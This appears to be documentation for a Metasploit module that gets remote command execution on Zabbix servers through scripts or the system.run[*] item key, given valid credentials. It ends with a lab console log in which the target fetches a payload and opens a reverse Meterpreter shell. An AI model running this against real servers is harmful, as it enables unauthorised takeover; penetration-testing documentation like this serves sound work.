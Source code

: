 ## Vulnerable Application

### Description

Zabbix server allow remote command execution by two different way.

The first way happen with the directive `AllowKey=system.run[*]` [[1]](https://blog.zabbix.com/zabbix-remote-commands/7500/#system.run).

This directive is disabled by default, if an attacker already know Zabbix credentials 
and the directive is enabled, he can abuse this functionnality to take control over the Zabbix server.

The second way is by creating a script 
[[2]](https://www.zabbix.com/documentation/devel/en/manual/web_interface/frontend_sections/administration/scripts) 
in Zabbix and use it on a host.

### Setup

An easy way to setup a Zabbix server is to download and run their [appliance](https://www.zabbix.com/download_appliance).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses a Linux dropper to execute code.

### 1

This executes a Unix command.

## Options

### TECHNIQUE

#### script
If this option is set, the exploit will try to use a script, in order to achieve RCE.

#### item
If this option is set, the exploit will try to use the key `system.run[*]` in an item, in order to achieve RCE, only works in Zabix >= 3.0.
This only work on a non default Zabbix server configuration, where 
the directive `AllowKey=system.run[*]` is enabled in the `zabbix-agentd.conf` file.

### TLS_PSK
Communication between an agent and the server can be encrypted with TLS using a PSK (pre-shared key).

If the server is configured to enforce that, you have to get the key from the web interface (browse inside a host 
and navigate to `Encryption` tab) and specifiy it with this option, otherwise RCE is not gonna happen.

### TLS_PSK_IDENTITY

This is also inside an host, in the `Encryption` tab.

## Scenarios

### Zabbix server from [VMWare](#setup).

```
msf6 > use exploit/multi/http/zabbix_script_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/zabbix_script_exec) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/http/zabbix_script_exec) > set USE_ITEM true
USE_ITEM => true
msf6 exploit(multi/http/zabbix_script_exec) > set LHOST eth0
LHOST => 192.168.0.129
msf6 exploit(multi/http/zabbix_script_exec) > run
[*] Started reverse TCP handler on 192.168.0.129:4444 
[+] Sucessfully logged in
[*] Getting a valid group id...
[*] Creating a host called kTsSUTGmgKCwcsbMjZ
[*] Using URL: http://0.0.0.0:8081/4J54NLVPQsj
[*] Local IP: http://127.0.0.1:8081/4J54NLVPQsj
[*] Creating an item called MkMczJNYyEoSBTwsBG
[*] Client 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0) requested /4J54NLVPQsj
[*] Sending payload to 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0)
[*] Sending stage (984904 bytes) to 192.168.0.130
[*] Meterpreter session 1 opened (192.168.0.129:4444 -> 192.168.0.130:33354 ) at 2022-01-08 01:20:47 +0000
[*] Server stopped.

meterpreter > getuid
Server username: zabbix
meterpreter > 
```
